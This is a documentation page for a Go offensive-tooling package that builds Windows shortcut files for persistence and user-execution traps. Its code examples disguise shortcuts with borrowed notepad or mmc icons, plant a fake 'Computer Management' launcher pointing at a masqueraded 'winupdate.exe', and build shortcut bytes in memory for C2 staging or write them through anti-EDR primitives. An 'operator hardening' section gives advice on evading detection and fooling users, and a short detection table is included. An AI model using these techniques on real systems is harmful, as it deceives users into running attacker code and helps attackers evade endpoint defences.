


# LNK shortcut creation

[← persistence index](README.md) · [docs/index](../../index.md)

## TL;DR

Create Windows `.lnk` shortcut files via COM/OLE automation.
Fluent builder with three sinks: `Save(path)` (disk via
`WScript.Shell`), `BuildBytes()` (raw bytes, **zero-disk** via
`IShellLinkW` + `IPersistStream::Save` on an HGLOBAL-backed
`IStream`), and `WriteTo(io.Writer)` (same zero-disk path,
streamed to any operator-controlled writer). Used as the
primitive for [`persistence/startup`](startup-folder.md), and
standalone for `T1204.002` user-execution traps (Desktop / Quick
Launch / Documents drops). Windows-only.

## Primer

LNK files are the Windows shell's canonical "double-click to
launch" artefact. They carry a target path, optional arguments,
working directory, an icon resource, and a window-style hint.
Windows Explorer renders them as their target's icon; the user
sees a familiar app and clicks.

The COM/OLE path (`WScript.Shell.CreateShortcut`) is the same
surface PowerShell's `WScript.Shell` ComObject uses. It produces
a fully-formed shell link with no shellbag side-effects and no
shortcut-file footer Microsoft signs as part of the SmartScreen
Mark-of-the-Web pipeline — unlike a downloaded .lnk, this one
carries no MOTW.

## How It Works



The zero-disk path (`BuildBytes` and `WriteTo`) swaps the Shell
automation actors for a direct IShellLinkW + IPersistStream chain:



The builder runs `runtime.LockOSThread` because COM apartments
are per-thread. Every call to `Save` tears the apartment down so
the package leaves no apartment state behind. All COM resources
are released even on the error path.

For `BuildBytes` / `WriteTo`, the path swaps `WScript.Shell` for
a direct `CoCreateInstance(CLSID_ShellLink, IID_IShellLinkW)`,
configures the shortcut via raw vtable calls (`SetPath`,
`SetArguments`, `SetWorkingDirectory`, `SetDescription`,
`SetIconLocation`, `SetShowCmd`), then `QueryInterface`-s for
`IPersistStream` and calls `Save(stream)` against an `IStream`
created by `CreateStreamOnHGlobal(NULL, fDeleteOnRelease=TRUE)`.
Bytes are extracted from the underlying `HGLOBAL` via
`GetHGlobalFromStream` / `GlobalLock` before the stream — and
thus the HGLOBAL — is released. **No filesystem call is
made at any point.**

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/persistence/lnk`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/lnk) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — Desktop launcher

```go
import "github.com/oioio-space/maldev/persistence/lnk"

_ = lnk.New().
    SetTargetPath(`C:\Windows\System32\cmd.exe`).
    SetArguments("/c whoami").
    SetWindowStyle(lnk.StyleMinimized).
    Save(`C:\Users\Public\Desktop\link.lnk`)
```

### Composed — donor icon + minimised

Use `notepad.exe`'s icon and a benign description so Explorer
renders the shortcut indistinguishably from a real notepad
launcher.

```go
_ = lnk.New().
    SetTargetPath(`C:\ProgramData\Microsoft\winupdate.exe`).
    SetArguments("--update").
    SetIconLocation(`C:\Windows\System32\notepad.exe,0`).
    SetDescription("Notes").
    SetWindowStyle(lnk.StyleMinimized).
    Save(`C:\Users\Public\Desktop\Notes.lnk`)
```

### Advanced — Quick Launch user-execution trap

Drop into Quick Launch where a freshly logged-on user is most
likely to click without inspection.

```go
import (
    "os"
    "path/filepath"

    "github.com/oioio-space/maldev/persistence/lnk"
)

appData := os.Getenv("APPDATA")
qLaunch := filepath.Join(appData,
    `Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar`)

_ = lnk.New().
    SetTargetPath(`C:\ProgramData\Microsoft\winupdate.exe`).
    SetIconLocation(`C:\Windows\System32\mmc.exe,0`).
    SetDescription("Computer Management").
    SetWindowStyle(lnk.StyleNormal).
    Save(filepath.Join(qLaunch, "Computer Management.lnk"))
```

### Stealth landing — bytes through an operator-controlled Creator

`WriteVia` keeps the in-memory build (`BuildBytes`) and then routes
the final write through any
[`stealthopen.Creator`](../evasion/stealthopen.md) — transactional
NTFS, encrypted-stream wrapper, alternate data stream, raw
`NtCreateFile`, etc. Same composition story as `stealthopen.Opener`
for read paths.

```go
import (
    "github.com/oioio-space/maldev/evasion/stealthopen"
    "github.com/oioio-space/maldev/persistence/lnk"
)

// Operator's anti-EDR write primitive (their package, their Open/Close).
var creator stealthopen.Creator = myEDRBypassCreator{}

_ = lnk.New().
    SetTargetPath(`C:\Windows\System32\cmd.exe`).
    SetWindowStyle(lnk.StyleMinimized).
    WriteVia(creator, `C:\Users\Public\Desktop\Notes.lnk`)

// nil creator falls back to os.Create — drop-in replacement for Save:
_ = lnk.New().
    SetTargetPath(`C:\Windows\System32\cmd.exe`).
    WriteVia(nil, `C:\Users\Public\Desktop\Notes.lnk`)
```

### Zero-disk — bytes for C2 staging

Build the LNK fully in memory via `IShellLinkW` +
`IPersistStream::Save` on an HGLOBAL-backed `IStream`. No file
is opened, created, or read on disk at any point — useful when
the operator wants to encrypt/transport/embed the artefact
through their own write primitive.

```go
import (
    "bytes"

    "github.com/oioio-space/maldev/persistence/lnk"
)

raw, err := lnk.New().
    SetTargetPath(`C:\Windows\System32\cmd.exe`).
    SetArguments("/c whoami").
    SetWindowStyle(lnk.StyleMinimized).
    BuildBytes()
if err != nil {
    return err
}
// `raw` is a fully-formed LNK byte stream, ready for embedding,
// encryption, or transport over a C2 channel.

// Or stream directly into any io.Writer (encrypted ADS, in-memory
// mount, custom anti-EDR Opener, …).
var buf bytes.Buffer
if _, err := lnk.New().
    SetTargetPath(`C:\Windows\System32\cmd.exe`).
    WriteTo(&buf); err != nil {
    return err
}
```

See [`ExampleNew`](../../../persistence/lnk/lnk_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| LNK file written outside StartUp folders | Generally noise — every Office install creates LNKs |
| LNK file written *inside* StartUp folders | Path-scoped EDR rules (Defender, MDE) — high-fidelity |
| LNK file with mismatched icon vs target | Mature EDR cross-checks `IconLocation` PE vs `TargetPath` PE |
| LNK pointing at user-writable / temp paths | Defender heuristic — system shortcuts target System32, not %TEMP% |
| `WScript.Shell` COM call from non-script process | ETW Microsoft-Windows-WMI-Activity / similar; rare in non-script processes |
| MOTW absence on a downloaded LNK | SmartScreen / `Get-Item ... -Stream Zone.Identifier` |

**D3FEND counters:**

- [D3-FCA](https://d3fend.mitre.org/technique/d3f:FileContentAnalysis/)
  — LNK header structure analysis; well-known parser libraries
  flag suspicious target/icon mismatches.
- [D3-UA](https://d3fend.mitre.org/technique/d3f:UserAccountPermissions/)
  — track user-execution chains.

**Hardening for the operator:**

- Match `IconLocation` to a PE consistent with the displayed
  description.
- For startup persistence, prefer
  [`persistence/startup`](startup-folder.md) which wraps
  `lnk` with the right paths.
- Don't drop in `%TEMP%` / `%APPDATA%\Local\Temp` — those paths
  draw default rules.
- For user-execution traps, use a name + icon a real user
  would not double-take (Documents folder, with their actual
  recent-doc names).

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1547.009](https://attack.mitre.org/techniques/T1547/009/) | Boot or Logon Autostart Execution: Shortcut Modification | full — LNK creation primitive | D3-FCA |
| [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | User Execution: Malicious File | partial — produces the LNK; user click is out-of-band | D3-UA |

## Limitations

- **Windows-only.** No cross-platform stub — calls are guarded
  by `//go:build windows`.
- **COM apartment overhead.** `runtime.LockOSThread` is held
  for the duration of every sink (`Save`, `BuildBytes`,
  `WriteTo`); high-frequency LNK creation paths benefit from
  batching builders behind a single COM init.
- **Zero-disk path is amd64-only in practice.** `BuildBytes` /
  `WriteTo` use raw COM vtable calls via `syscall.SyscallN` and
  rely on the Windows x64 ABI — the calls compile under
  `GOARCH=386` but argument passing for `IShellLinkW` setters
  has not been verified on 32-bit. Treat 64-bit Windows as the
  supported target.
- **Custom `LinkFlags` / `EXTRA_DATA_BLOCK`s.** Callers needing
  fields neither `IWshShortcut` nor `IShellLinkW` expose (custom
  flags, signed property store entries, console block tweaks)
  still need a separate parser / writer — neither sink reaches
  past those interfaces.
- **No LNK reading.** This package writes only; reading existing
  LNKs requires a separate parser.
- **`Save` and `BuildBytes` are NOT byte-identical.**
  `WScript.Shell.IWshShortcut.Save(path)` auto-computes
  `RELATIVE_PATH` from its `path` argument (used by the Windows
  shell as a fallback resolver if the absolute target moves).
  `BuildBytes` runs `IPersistStream::Save` against an in-memory
  IStream — no `path` reference is available, so the
  `HasRelativePath` flag stays clear and the corresponding
  StringData block is omitted (~50–100 bytes shorter output).
  Operators that need byte-equivalence under forensic comparison
  must either use `Save` or extend the builder with a typed
  `SetRelativePath` accessor (backlog item). Verified by
  `TestBuildBytes_DivergesFromSave_OnRelativePath` against the
  Windows10 VM target (commit `dde3f5c..`).
- **MOTW absent.** Locally-created LNKs carry no
  `Zone.Identifier` ADS — useful for the operator, but a
  forensic tell when correlating LNKs against download history.
- **Hotkey parser scope.** Both sinks honour `SetHotkey`. The
  `BuildBytes` path translates the WSH string (`"Ctrl+Alt+T"`,
  `"Shift+F1"`, `"Alt+1"`) into the packed `WORD` form
  (`HOTKEYF_* << 8 | VK_*`) expected by `IShellLinkW::SetHotkey`.
  Recognised modifiers: `Ctrl`/`Control`, `Alt`, `Shift`, `Ext`.
  Recognised keys: A–Z, 0–9, F1–F24. Anything else (numpad, OEM,
  multimedia VKs) is silently dropped — extend `parseHotkey` if
  needed.

## See also

- [`persistence/startup`](startup-folder.md) — primary consumer
  (StartUp-folder persistence).
- [`pe/masquerade`](../pe/masquerade.md) — donor binary for
  matching VERSIONINFO / icon.
- [`cleanup`](../cleanup/README.md) — remove the LNK post-op.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
